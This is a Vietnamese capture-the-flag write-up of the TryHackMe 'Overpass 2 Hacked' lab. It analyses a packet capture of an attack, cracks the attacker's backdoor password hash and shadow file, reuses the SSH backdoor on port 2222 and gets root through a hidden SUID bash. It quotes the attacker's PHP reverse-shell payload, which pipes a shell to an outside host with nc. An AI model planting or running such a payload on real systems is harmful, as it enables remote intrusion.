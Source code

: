 ```yaml
---
title: "Overpass 2 Hacked"
description: "Khai thác máy Linux. Thu thập thông tin Samba để tìm các thư mục chia sẻ, khai thác một phiên bản ProFTPD và leo thang đặc quyền bằng cách lợi dụng biến PATH."
publishDate: 2025-09-18
tags: 
- TryHackMe
- CTF - Capture The Flag
- Offensive Pentesting
- Challenges
- Privilege Escalation
draft: false
language: 'Việt Nam'
heroImage: { src: './thumbnail.png', color: '#2b831f' }
---
```


## Forensics - Phân tích PCAP

> Overpass đã bị hack! Đội SOC (Paradox, chúc mừng vì được thăng chức) đã phát hiện hoạt động đáng ngờ trong một ca trực đêm muộn khi đang xem shibes, và đã kịp thời bắt gói tin trong lúc cuộc tấn công diễn ra.

Từ thông tin trên mình nhận được file `overpass2_1595383502269.pcapng`.

![img](imgs/1.png)

Phân tích sơ qua mình thấy một stream bắt được khi kẻ tấn công upload reverse shell thông qua `/development/upload.php` với payload:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

![img](imgs/2.png)

Người này sau khi có được shell đã thực hiện truy cập sang người dùng `james`.

![img](imgs/3.png)

Kẻ này đã thiết lập một `persistence` bằng cách cài một backdoor.

![img](imgs/4.png)

Tại đây, hắn cũng lấy thông tin file `shadow`, mình cũng sử dụng file này kèm theo wordlist `fasttrack` thì giải mã được mật khẩu của 4 tài khoản.

![img](imgs/5.png)

## Research - Phân tích mã nguồn

Kiểm tra mã nguồn một chút thì `backdoor` này sử dụng hash mặc định là:

![img](imgs/6.png)

Kèm theo đó có `salt` là:

![img](imgs/7.png)

Nhưng khi thực thi `backdoor` thì kẻ tấn công dùng một hash khác là:

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Từ các thông tin trên mình sẽ giải mã hash mà kẻ tấn công đã sử dụng, trong mã nguồn `backdoor` này sử dụng thuật toán hash `SHA512` kèm salt:

![img](imgs/8.png)

Công cụ `hashcat` có hỗ trợ thuật toán này ở mode `1710` và sau khi giải xong mình đã có được plain text.

![img](imgs/10.png)

## Attack - Get back in!

Từ các thông tin trên, mình truy cập vào website mục tiêu thì thấy nó đã bị kẻ tấn công deface.

![img](imgs/11.png)

Mình thực hiện SSH vào `james` với các thông tin mình tìm được, nhưng không có quyền truy cập.

Vấn đề nằm ở đây, kẻ tấn công không SSH vào port mặc định (22) mà SSH vào port `2222`.

![img](imgs/12.png)

Sau khi SSH ở port `2222` thì mình đã có quyền truy cập vào người dùng `james`.

![img](imgs/13.png)

Tại thư mục `/home` của `james`, mình tìm thấy flag trong file `user.txt`.

![img](imgs/14.png)

Và cũng tại đây kẻ tấn công đã để lại một file thực thi bị ẩn `.suid_bash`.

Sau một tí thời gian, khi thực thi file và tìm hiểu thì mình thực thi lệnh theo hướng dẫn.

```bash
Type `./.suid_bash -c "help set"' for more information about shell options.
```

Trong này mình tìm thấy tùy chọn `-p` có vẻ sẽ giúp mình leo thang đặc quyền.

![img](imgs/15.png)

Khi thực thi thành công, mình đã có quyền `root` và tìm thấy flag trong file `root.txt` tại thư mục `/root`.

![img](imgs/16.png)

